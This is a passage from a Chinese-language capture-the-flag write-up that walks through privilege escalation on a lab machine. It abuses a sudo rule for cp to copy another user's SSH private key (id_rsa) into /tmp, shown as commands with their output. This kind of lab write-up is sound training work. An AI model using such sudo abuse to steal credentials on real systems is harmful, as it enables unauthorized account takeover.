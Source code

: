 ## 提权

### 信息搜集

```bash
(remote) www-data@five:/$ sudo -l
Matching Defaults entries for www-data on five:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on five:
    (melisa) NOPASSWD: /bin/cp
```

https://gtfobins.github.io/gtfobins/cp/#sudo

尝试利用一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404211821906.png" alt="image-20240421175426669" style="zoom: 33%;" />

最后一个不知道行不行，但是好像不太阔以，就算成功了也会破坏环境，先不考虑，继续搜集一下信息：

### 复制私钥

```bash
(remote) www-data@five:/$ cd /home
(remote) www-data@five:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Oct  5  2020 .
drwxr-xr-x 18 root   root   4096 Oct  5  2020 ..
drwxr-xr-x  4 melisa melisa 4096 Oct  6  2020 melisa
(remote) www-data@five:/home$ cd melisa/
(remote) www-data@five:/home/melisa$ ls -la
total 40
drwxr-xr-x 4 melisa melisa 4096 Oct  6  2020 .
drwxr-xr-x 3 root   root   4096 Oct  5  2020 ..
-rw------- 1 melisa melisa  100 Oct  6  2020 .Xauthority
-rw-r--r-- 1 melisa melisa  220 Oct  5  2020 .bash_logout
-rw-r--r-- 1 melisa melisa 3526 Oct  5  2020 .bashrc
-rw------- 1 melisa melisa   72 Oct  5  2020 .lesshst
drwxr-xr-x 3 melisa melisa 4096 Oct  5  2020 .local
-rw-r--r-- 1 melisa melisa  807 Oct  5  2020 .profile
drwx------ 2 melisa melisa 4096 Oct  6  2020 .ssh
-rw------- 1 melisa melisa   14 Oct  5  2020 user.txt
(remote) www-data@five:/home/melisa$ cd .ssh
bash: cd: .ssh: Permission denied
(remote) www-data@five:/home/melisa$ cd /tmp
(remote) www-data@five:/tmp$ sudo -u melisa cp /home/melisa/.ssh/id_rsa /tmp/id_rsa
(remote) www-data@five:/tmp$ chmod 600 id_rsa 
chmod: changing permissions of 'id_rsa': Operation not permitted
(remote) www-data@five:/tmp$ ls -la
total 36
drwxrwxrwt  8 root   root   4096 Apr 21 05:56 .
drwxr-xr-x 18 root   root   4096 Oct  5  2020 ..
drwxrwxrwt  2 root   root   4096 Apr 21 05:17 .ICE-unix
drwxrwxrwt  2 root   root   4096 Apr 21 05:17 .Test-unix
drwxrwxrwt  2 root   root   4096 Apr 21 05:17 .X11-unix
drwxrwxrwt  2 root   root   4096 Apr 21 05:17 .XIM-unix
drwxrwxrwt  2 root   root   4096 Apr 21 05:17 .font-unix
-rw-------  1 melisa melisa 1811 Apr 21 05:56 id_rsa
drwx------  3 root   root   4096 Apr 21 05:17 systemd-private-78d8e7134f2f4ec89dc2c5815b640611-systemd-timesyncd.service-dJl3ZN
(remote) www-data@five:/tmp$ rm id_rsa 
rm: remove write-protected regular file 'id_rsa'? y
rm: cannot remove 'id_rsa': Operation not permitted
```